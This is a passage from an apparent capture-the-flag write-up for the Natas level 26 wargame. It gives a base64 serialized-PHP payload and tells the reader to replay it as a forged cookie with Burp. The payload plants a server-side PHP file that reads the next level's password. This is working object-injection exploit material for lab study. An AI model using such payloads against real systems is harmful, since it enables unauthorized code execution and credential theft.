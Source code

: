 Execute it :

```bash
$ php natas26.php
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMDoiaW1nL2F4LnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjc6ImZvb2JhcgoiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo2MToiPD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTs/PiI7fQ==
```

Then replay the forged **drawing** cookie with *Burp*. Don't forget to urlencode the **/** and **=**.
![image-center](/images/2019-03-29-write-up-natas-otw-wargame/natas26_burp.png){: .align-center}
Then, try to access the file you just created :
![image-center](/images/2019-03-29-write-up-natas-otw-wargame/natas26_password.png){: .align-center}
Done.
